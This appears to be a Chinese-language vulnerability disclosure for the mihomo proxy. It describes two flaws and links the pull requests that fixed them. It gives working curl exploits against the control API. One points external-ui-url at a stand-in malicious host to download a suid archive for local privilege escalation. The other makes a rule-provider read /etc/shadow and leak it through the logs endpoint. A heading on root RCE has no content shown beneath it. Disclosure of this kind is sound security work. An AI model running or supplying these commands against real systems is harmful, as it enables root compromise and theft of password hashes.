



# Mihomo 0days

## external-ui 可下载 suid 程序导致本地提权

mihomo 也是个神人，过滤了软链接等一大堆东西，没过滤 suid 文件。

一般来说 zip 是没法保存 suid 位的，但是 go 的 zip 解压逻辑，zip也可以保留 suid 位



通过控制 api, 可以修改 config 内容，使 mihomo 从恶意主机下载 suid 压缩包并解压为 suid 程序。

```bash
curl -X PUT "http://localhost:9999/configs" \
     -H "Authorization: Bearer 123" \
     -H "Content-Type: application/json" \
     -d '{"payload": "{\"external-ui\": \"real\", \"external-ui-url\": \"http://deadbeef.xxx/suid.zip\", \"external-ui-name\": \"shit\"}"}'

```




修复：

https://github.com/MetaCubeX/mihomo/pull/2178


## rule-provider path 过滤不全导致利用报错任意读文件

可以看到 http 设置了 `IsSafePath` 检查，但是 file 属性没有

```go
	var vehicle P.Vehicle
	switch schema.Type {
	case "file":
		path := C.Path.Resolve(schema.Path)
		vehicle = resource.NewFileVehicle(path)
	case "http":
		path := C.Path.GetPathByHash("rules", schema.URL)
		if schema.Path != "" {
			path = C.Path.Resolve(schema.Path)
			if !C.Path.IsSafePath(path) {
				return nil, C.Path.ErrNotSafePath(path)
			}
		}
		vehicle = resource.NewHTTPVehicle(schema.URL, path, schema.Proxy, nil, resource.DefaultHttpTimeout, schema.SizeLimit)
	case "inline":
		return NewInlineProvider(name, behavior, schema.Payload, parse), nil
	default:
		return nil, fmt.Errorf("unsupported vehicle type: %s", schema.Type)
	}
```

先去 logs 接口监听日志

```bash
curl -X GET "http://localhost:9999/logs" \
     -H "Authorization: Bearer 123" \
     -H "Host: localhost"
```

然后让 `rule-provider` 读取 `/etc/shadow` 文件，解析器报错会通过日志接口显示出内容。

```bash
curl -X PUT "http://localhost:9999/configs" \
     -H "Authorization: Bearer 123" \
     -H "Content-Type: application/json" \
     -d '{"payload": "{\"log-level\": \"debug\", \"external-controller-unix\": \"mihomo.sock\", \"rule-providers\": {\"pwn\": {\"type\": \"file\", \"behavior\": \"classical\", \"format\": \"text\", \"path\": \"/etc/shadow\"}}}"}'

```



修复：

https://github.com/MetaCubeX/mihomo/pull/2177


## 通过 api 接口实现 root RCE


